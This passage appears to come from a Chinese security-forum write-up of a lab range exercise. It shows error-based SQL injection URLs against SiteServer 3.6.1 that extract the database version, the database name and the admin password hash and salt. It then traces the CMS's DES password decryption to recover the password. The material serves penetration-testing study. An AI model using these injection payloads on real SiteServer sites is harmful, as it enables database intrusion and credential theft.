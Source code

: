 ## [](https://bbs.pediy.com/thread-268289.htm)7.2 web漏洞

访问网址可知，这是siteserver3.6.1，从网上找到该版本报错注入的相关poc，获得数据库版本信息：  
http://www.moonlab.com/usercenter/platform/user.aspx?UnLock=sdfe%27&UserNameCollection=test%27)%20and%20char(71)%2Bchar(65)%2Bchar(79)%2Bchar(74)%2Bchar(73)%2B@@version=2;%20--  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_J8X63NY89QUWHT3.png)  
获得数据库名：  
http://www.moonlab.com/usercenter/platform/user.aspx?UnLock=sdfe%27&UserNameCollection=test%27)%20and%20db_name()=~2;%20--  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_QQKFE4WA9T532DC.png)  
根据查询数据库语句相继获取到后台的用户名、密码及salt值：  
http://www.moonlab.com/usercenter/platform/user.aspx?UnLock=sdfe%27&UserNameCollection=test%27)%20and%20~1=(SELECT%20TOP%201%20[Password]%20FROM%20[bairong_Administrator]);%20--  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_EE9SMBR8FHGK85V.png)  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_BMSANUAUQGEGMPP.png)  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_TRZ3N6V227PGMR8.png)



然后我们根据网上所下载的原理分析出其登录时的密码加密流程：  
先看FrameworkLogin类的Submit_Onclick()方法，流程很简单先判断验证码，然后把用户名和密码传入AdminManager.Authticate：  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_ES9S4JTAVG687Q5.png)  
继续跟入AdminManager.Authticate，调用了AdministratorDAO.ValidateUser()验证：  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_X3Z3CHQHXZKGGGG.png)  
继续跟入AdministratorDAO.ValidateUser()的实现，函数先根据用户名找到用户的信息，根据数据库中用户的密码与输入的密码调用checkpassword()函数进行比对：  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_EW6JKUN8JFDZDH8.png)  
把数据库中的密码和salt传入DecodePassword()进行相应的解密：  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_6FV53TPPVM5C2BW.png)  
DecodePassword()函数中调用的是系统库的des解密：  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_3WVQXG8QY8QUD5H.png)  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_NFFSDED2SNEJ9XQ.png)  
我们了解了相关的解密流程，就可以自己编写相关的解密工具去解密前面注入得到的密码为admin5566。


